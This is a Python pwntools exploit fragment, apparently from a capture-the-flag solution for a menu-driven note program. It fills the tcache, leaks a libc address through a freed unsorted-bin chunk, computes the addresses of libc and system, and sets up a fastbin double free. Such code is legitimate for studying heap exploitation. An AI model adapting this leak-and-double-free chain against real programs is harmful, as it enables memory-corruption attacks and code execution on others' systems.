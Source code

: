 ```python
# allocate 9 chunks
for i in range(9):
    p.recvuntil(b">")
    p.sendline("1")
    p.recvuntil(b"size: ")
    p.sendline("130")
    p.recvuntil(b"content: ")
    p.sendline()

# free 8 chunks, so 7 of them will fill the tcache. the last one goes into unsorted bin
for i in range(8):
    p.recvuntil(b">")
    p.sendline("2")
    p.recvuntil(b"note id: ")
    p.sendline(f"{i}")

# leak unsorted main_arena addr
p.recvuntil(b">")
p.sendline("3")
p.recvuntil(b"note id: ")
p.sendline("7")

# calculate offsets
leak = p.recvline().strip()
leak = int.from_bytes(leak, 'little')
print("unsorted bin leak: " + hex(leak))

libc_base = leak - 2018272
print("LIBC_BASE: " + hex(libc_base))

system = libc_base + 336528
print("SYSTEM: " + hex(system))

# FASTBIN DUP attack
# allocate 10 chunks 
for i in range(10):
    p.recvuntil(b">")
    p.sendline("1")
    p.recvuntil(b"size: ")
    p.sendline("60")
    p.recvuntil(b"content: ")
    p.sendline(b"test")


# free 7 chunks to fill tcache
for i in range(8):
    p.recvuntil(b">")
    p.sendline("2")
    p.recvuntil(b"note id: ")
    i = i + 9
    p.sendline(f"{i}")

# get a double free on fastbin
p.recvuntil(b">")
p.sendline("2")
p.recvuntil(b"note id: ")
p.sendline("17")

p.recvuntil(b">")
p.sendline("2")
p.recvuntil(b"note id: ")
p.sendline("18")

```